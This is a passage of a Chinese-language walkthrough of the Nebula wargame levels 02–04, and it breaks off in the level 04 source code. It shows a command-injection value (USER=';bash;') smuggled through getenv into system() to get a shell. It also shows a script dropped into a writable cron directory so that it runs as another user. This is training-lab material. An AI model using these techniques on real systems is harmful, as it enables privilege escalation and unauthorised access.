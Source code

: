然后运行该程序试试
```
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
```

这题很简单，主要在 `getenv("USER")` 函数，该函数是获得shell的变量$USER
```
level02@nebula:~$ echo $USER
level02
```

所以只要更改该值，以达到我们能get flag02用户shell的目的
```
level02@nebula:/home/flag02$ USER=";bash;"
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

# Level03

这题有个定时脚本，每隔几分钟运行一个：
```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

这是一个 flag03用户运行的定时脚本，运行writable.d中的文件，运行结束后删除，不是很清楚这题的意义所在，/home/flag03/writable.d文件夹可写，那就写个脚本呗：
```
level03@nebula:/home/flag03/writable.d$ vim getflag.sh
#!/bin/bash
getflag > a.out
:wq
```
等会，你就会发现getflag.sh文件不见了，/home/flag03 下多出了a.out文件
```
level03@nebula:/home/flag03$ cat a.out
You have successfully executed getflag on a target account
```

恕我才疏学浅，这题并不懂该如何getshell，不过感觉这样和getshell没啥区别，想运行啥直接写脚本里就好了

# Level04

源码审计：
```
//flag04.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
    char buf[1024];
    int fd, rc;
    
```